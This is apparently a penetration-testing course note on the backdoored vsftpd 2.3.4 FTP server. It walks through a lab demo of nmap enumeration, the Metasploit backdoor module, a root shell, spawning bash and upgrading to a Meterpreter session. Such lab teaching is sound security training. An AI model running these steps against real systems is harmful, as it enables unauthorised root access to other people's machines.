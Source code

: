 # Exploiting A Vulnerable FTP Server

* FTP is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftp download archive through a supply chain attack.

## Practice Demo

Enumerate the target with the db\_nmap command:

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Search for "vsftpd" modules

* <mark style="color:yellow;">exploit/unix/ftp/vsftpd\_234\_backdoor</mark>

Set the required options

Run, and now we get a root shell on the target.

To open a bash terminal write&#x20;

* <mark style="color:yellow;">/bin/bash -i</mark>

### Using a module to upgrade our shell to a meterpreter session

* <mark style="color:yellow;">post/multi/manage/shell\_to\_meterpreter</mark>

Set the required options

